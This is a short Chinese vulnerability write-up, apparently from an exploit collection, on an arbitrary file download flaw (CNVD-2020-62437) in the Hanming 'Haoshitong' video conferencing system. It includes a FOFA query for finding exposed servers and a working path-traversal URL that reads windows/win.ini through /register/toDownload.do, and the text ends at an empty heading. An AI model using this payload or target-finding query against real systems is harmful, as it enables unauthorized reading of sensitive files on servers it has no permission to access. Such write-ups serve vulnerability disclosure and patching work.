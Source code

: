 # 银澎云计算 好视通视频会议系统 任意文件下载 CNVD-2020-62437

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

```
银澎云计算 好视通视频会议系统
```

## FOFA

```
app="Hanming-Video-Conferencing"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101930170.png)



漏洞Url为



```plain
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101930402.png)



## 